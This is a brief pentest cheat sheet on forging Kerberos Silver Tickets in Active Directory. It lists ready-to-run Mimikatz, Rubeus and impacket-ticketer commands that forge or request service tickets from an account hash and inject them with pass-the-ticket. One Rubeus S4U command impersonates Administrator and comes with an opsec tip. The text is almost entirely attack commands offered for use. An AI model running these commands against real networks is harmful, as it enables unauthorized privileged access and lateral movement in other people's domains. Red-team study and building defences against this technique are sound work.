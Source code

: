 # Silver Ticket

### 1) Create ST

/rc4 take the service account (generally the machine account) hash. /aes128 or /aes256 can be used for AES keys.

    Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:domain.local /sid:<domain_SID> /target:<target>.domain.local /service:CIFS /rc4:<account_hash> /ptt"'

Requesting a ST with a valid TGT can be performed with Rubeus like this:

    .\Rubeus.exe asktgs /ticket:tgt.kirbi /service:LDAP/dc.domain.local,cifs/dc.domain.local /ptt

Another solution, if you don't have the NT hash or the AES keys of the service but you have a TGT for the service account, is to impersonate an account via a request for a service ticket through S4USelf to an alternative service (and the opsec is better since the PAC is consistent):

    .\Rubeus.exe s4u /self /impersonateuser:"Administrator" /altservice:"cifs/target.domain.local" /ticket:"<base64_target_TGT>" /nowrap

MISC

    impacket-ticketer -nthash MACHINE_NT_HASH -domain-sid DOMAIN_SID -domain DOMAIN ANY_USER

    mimikatz "kerberos::golden /sid:CURRENT_USER_SID /domain:DOMAIN_SID /target:TARGET_SERVER /service:TARGET_SERVICE /aes256:COMPUTER_AES256_KEY /user:ANY_USER /ptt"
